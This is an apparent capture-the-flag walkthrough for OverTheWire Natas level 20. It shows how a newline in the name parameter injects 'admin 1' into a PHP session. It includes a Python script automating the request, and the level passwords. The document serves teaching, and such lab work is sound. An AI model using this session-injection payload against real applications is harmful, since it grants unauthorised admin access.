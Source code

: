 # Natas CTF Solutions  

## Natas Level 20  

### 🌐 **Challenge Description**  
Natas teaches the basics of server-side web security. Each level consists of a website located at:  
👉 `http://natasX.natas.labs.overthewire.org` (where **X** is the level number).  

---

### 🎯 **Goal**  
- Exploit session-based authentication using **session injection**.  
- Retrieve the password for the next level.  

---

## 🚀 **Solution**  

### **Step 1: Open the URL**  
Visit:  
```  
http://natas20.natas.labs.overthewire.org  
```  

---

### **Step 2: Enter Login Credentials**  
- **Username:** `natas20`  
- **Password:** Use the password from Natas Level 19:  
```
p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw
```  

![Home_Page](https://github.com/user-attachments/assets/5fa491f6-9e06-490a-9690-dc420fb926e4)

---

### **Step 3: Analyze the Webpage**  
- The webpage sets a **PHP session** after login.  
- The session data is based on user input and stored directly in the cookie.  
- If the session data is modified, it may allow privilege escalation.  

![Page_Source](https://github.com/user-attachments/assets/4b7f02fa-cfbc-4697-afac-ad3d5e35446f)

---

### **Step 4: Inject Payload**  
The goal is to exploit session manipulation by injecting a newline character (`\n`) to modify the session content.  

✅ **Payload:**  
- `name="test\nadmin 1"`  
- This payload will create a session where `admin = 1`, giving admin access.  

---

### **Step 5: Exploit with Python Script**  
Use this Python script to automate the attack:  

```python
import requests

# Authentication details
username = "natas20"
url = "http://natas20.natas.labs.overthewire.org"
password = "p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw"

# Inject newline and set admin = 1
payload = dict(name="test\nadmin 1")

# Send POST request with payload
r = requests.post(url, auth=(username, password), data=payload)

# Capture session cookie
cookie = r.cookies.get_dict()

# Use session cookie to verify admin access
d = requests.get(url, auth=(username, password), cookies=cookie)

# Output result
print(d.content)
```

✅ **How the script works:**  
1. Sends a `POST` request with a malicious payload (`name="test\nadmin 1"`).  
2. The server processes the input and stores the session data.  
3. A newline (`\n`) splits the session data, allowing it to interpret `admin = 1`.  
4. When the session is reused, the server treats the user as an **admin**.  

---

### **Step 6: Output**  
After running the script, the output will reveal the password for the next level:  
```  
The password for natas21 is: BPhv63cKE1lkQl04cE5CuFTzXe15NfiH
```

![Password](https://github.com/user-attachments/assets/78c4f3a7-4f08-4591-b1c8-5fd57c7392ef)

---

### **✅ Password for Natas Level 21**  
```
BPhv63cKE1lkQl04cE5CuFTzXe15NfiH
```  

---

## 💡 **Lessons Learned**  
✔️ **Session Injection:** Newline characters (`\n`) can manipulate session data.  
✔️ **Session Hijacking:** Session data directly influenced by user input can lead to privilege escalation.  
✔️ **Sanitization:** Servers must sanitize and validate session data to prevent injection attacks.  

---

## 🖼️ **Screenshots**  
| Step | Screenshot |  
|------|------------|  
| Step 3 – Page Source Code | ![Page_Source](https://github.com/user-attachments/assets/4b7f02fa-cfbc-4697-afac-ad3d5e35446f) |  
| Step 6 – Found Password | ![Password](https://github.com/user-attachments/assets/78c4f3a7-4f08-4591-b1c8-5fd57c7392ef) |  

---

## 🎯 **Next Level**  
Use the password to access **Natas Level 21**:  
👉 [http://natas21.natas.labs.overthewire.org](http://natas21.natas.labs.overthewire.org)  

---
